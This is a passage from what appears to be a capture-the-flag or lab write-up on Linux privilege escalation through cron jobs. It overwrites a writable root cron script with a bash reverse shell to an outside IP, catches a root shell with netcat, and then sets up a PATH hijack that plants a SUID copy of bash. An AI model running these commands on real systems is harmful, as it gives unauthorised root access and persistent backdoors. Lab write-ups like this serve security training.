Modify the script to establish a connection back to our machine:

~~~
user@debian:~$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 16.4 days)
/usr/local/bin/overwrite.sh
user@debian:~$ ls -l /usr/local/bin/overwrite.sh 
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
user@debian:~$ vim /usr/local/bin/overwrite.sh 
user@debian:~$ cat /usr/local/bin/overwrite.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.11.9.81/9999 0>&1
user@debian:~$ 
~~~

Now in our listener:

~~~
$ rlwrap nc -nlvp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.51.207.
Ncat: Connection from 10.10.51.207:47436.
bash: no job control in this shell
root@debian:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# 
~~~

# [Task 9] Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:

```bash
cat /etc/crontab
```

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:

```bash
chmod +x /home/user/overwrite.sh
```
